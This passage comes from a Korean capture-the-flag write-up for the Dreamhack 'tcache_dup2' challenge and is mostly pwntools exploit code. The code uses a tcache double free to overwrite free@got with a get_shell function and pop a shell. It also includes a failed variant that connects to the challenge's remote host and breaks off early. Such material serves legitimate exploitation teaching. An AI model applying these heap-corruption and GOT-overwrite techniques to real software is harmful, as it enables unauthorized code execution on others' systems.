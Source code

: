 ```
# tcache[0x20] : ptr[1] -> free@got
# tc_idx = 2
# chunk : ptr[1]
free_got = elf.got['free']
modify(1, 0x10, p64(free_got))


# tcache[0x20] : free@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))
# tcache에서 청크를 찾아서 할당할 때 해당 청크에 `e->key = NULL;`을 해서 `청크 + 0x8`을 `0x00`으로 초기화하기 때문에,
# 여기서 free@got를 할당할 때, [free@got + 0x8]에 위치하는 puts@got의 값이 NULL(0x00)으로 바뀜
# 사실 puts가 해당 바이너리에서 쓰이지 않지만, gdb를 통해서 확인해보면, `printf`에 포맷 스트링이 아닌 문자열만 쓰이는 경우 최적화를 통해 puts가 호출되는 경우가 있음
# 따라서 여기서 puts@got가 바뀌면, puts로 바뀐 printf 들이 출력이 안되서, `recvafter`에서 무한대기해서 아래로 못내려감

delete(0)

p.interactive()
```

# `ex.wrong4.py`

참고로 `Double Free`를 통해 처음에 `tc_idx = 2`로 만들어주더라도, 바로 `edit` 으로 중복된 청크를 날리지 않고 `create`를 해주면 마지막에 `tc_idx = 0`인 상태에서 `GOT Overwrite`를 하게 되어서 익스플로잇에 성공하지 않게 된다.

```
from pwn import *

p = remote('host3.dreamhack.games', 21924)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
```